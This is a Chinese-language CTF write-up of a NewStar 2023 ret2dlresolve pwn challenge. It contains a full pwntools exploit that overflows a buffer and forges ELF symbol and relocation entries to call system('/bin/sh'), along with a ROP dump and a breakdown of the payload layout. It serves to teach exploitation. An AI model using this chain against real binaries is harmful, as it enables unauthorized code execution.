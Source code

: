 ```yaml
---
title: newstar2023 week3 - dlresolve
date: 2023/10/10 12:00:00
tags:
    - ret2dlresolve
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

题目提示了使用ret2dlresolve，我们可以直接使用pwntools的工具生成

官方题解用了比较复杂的方式，而且与脚本实现也有很多不同，所以我就想弄清楚 pwntools
与官方题解有什么区别，因此下文只解析pwntools的实现，文末我也会把官方题解放上

## EXPLOIT

```python
# copy from official sample
from pwn import *
def payload():
    global sh
    context.arch = 'amd64'
    sh = gdb.debug('dlresolve')
    elf = ELF('dlresolve')

    bssHigh = 0x404500
    readAddr = 0x401192
    leaveRetAddr = 0x4011a9
    retAddr = 0x4011aa

    rop = ROP(elf)
    dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
    rop.read(0, dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()

    sh.sendline(b'0'*120 + p64(retAddr) + raw_rop)
    sh.sendline(dlresolve.payload)
    sh.interactive()

payload()
```

## Ret2Dlresolve对象详解

相比起官方脚本，用工具生成不但简单，而且payload也短，以下是我的研究结果

使用`rop.dump()`，我们得以窥见rop攻击的具体含义：
```
0x0000:         0x40116b pop rsi; ret
0x0008:         0x404e00 [arg1] rsi = 4214272
0x0010:         0x40115e pop rdi; ret
0x0018:              0x0 [arg0] rdi = 0
0x0020:         0x401064 read
0x0028:         0x40115e pop rdi; ret
0x0030:         0x404e38 [arg0] rdi = 4214328
0x0038:         0x401020 [plt_init] system
0x0040:            0x30b [dlresolve index]
```
> ps: 复盘的时候忘记加`context.arch = 'amd64'`了，dump结果都变了，一定要注意！

到read都不必我说，接下来pop的rdi，是指向伪造出来的"/bin/sh"字符串的指针，
这样就能在解析完成后指定参数打开shell；然后0x401020是plt_init的地址，
这个“函数”做两件事：将link_map压到栈上，然后执行`dl_runtime_resolve`函数进行加载  
栈上还有一个index，是下图中的reloc_arg，可以由此指向伪造的ElfRel

那么这里为什么reloc_arg是0x30b呢？查了以下pwntools的源码，计算可推出如下关系：
`reloc_arg * ElfRel.size + __DT_SYMTAB -> &fakeRel`  
因为64位下ElfRel的大小是24字节，计算中可以将24带入；__DT_SYMTAB是指`__DT_SYMTAB`这个标签的地址；
这里使用'->'是因为这两边并不一定相等，而是存在对齐调整的  
至此，`rop`部分已经分析完毕

接下来是`dlresolve.payload`部分：这一部分没有`dump`函数，只有bytes，
不过动调以后也逐渐搞明白了其结构，接下来用伪c代码，按结构展开各个字节对应的内容  
（前面的标号是字段在payload中的起始地址）
```c
0:  "system\0a" // 'a' for padding
Elf64_Sym fakeSym = {
8:  st_name = 0x49a8, // __DT_STRTAB + st_name == (char *)"system"
12: st_info = 0,
13: st_other = 0,
14: st_shndx = 0,
16: st_value = 0,
24: st_size = 0
} // size: 24
Elf64_Rel fakeRel = {
32: r_offset = 0x404e00,    // 解析完的地址存放的地址（伪造got）
40: r_info = 0x31800000007, // __DT_SYMTAB + 0x318 * 24 == &fakeSym
48: r_append = 0
} // size: 24
56: "/bin/sh\0" // argument
```
共计64字节，无关的条目全部填0，需要伪造的条目已经在后面写上了注释，具体dlresolve的执行流程见下图：  
![图解](/assets/newstar2023/relro.png)  
可以看到，所生成的结构在函数解析中一次次被使用，没有任何多余

如果到这里还觉得迷迷糊糊的话，建议动调步进观察`dl_fixup`函数的运行情况；
此外我在研究的时候也离不开[这篇知乎文章](https://zhuanlan.zhihu.com/p/134105591)的深入讲解，
搭配两者一起使用，是能理解其中奥秘的根本

另外，作者还提到了其他文章所没有介绍的Full Relro的利用方法，也可以学习一下

## 参考文献

1. [图片来源文章](https://blog.csdn.net/IO1n0/article/details/103323738 "透过深入分析延迟绑定了解 ret_2_dl_resolve:1Oin0的博客")
2. [深入讲解动态加载技术的知乎文章](https://zhuanlan.zhihu.com/p/134105591 "深入窥探动态链接:1Oin0的看雪论坛文章")
3. [官方题解](https://shimo.im/docs/QPMRxzGktzsZnzhz/read "详见dlresolve一节")
4. [dlresolve官方示例](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html#module-pwnlib.rop.ret2dlresolve "pwnlib.rop.ret2dlresolve")
5. [dlresolve源码](https://github.com/Gallopsled/pwntools/blob/2e09b7dd91/pwnlib/rop/ret2dlresolve.py "pwntools/pwnlib/rop/ret2dlresolve.py @ GitHub")

Done.
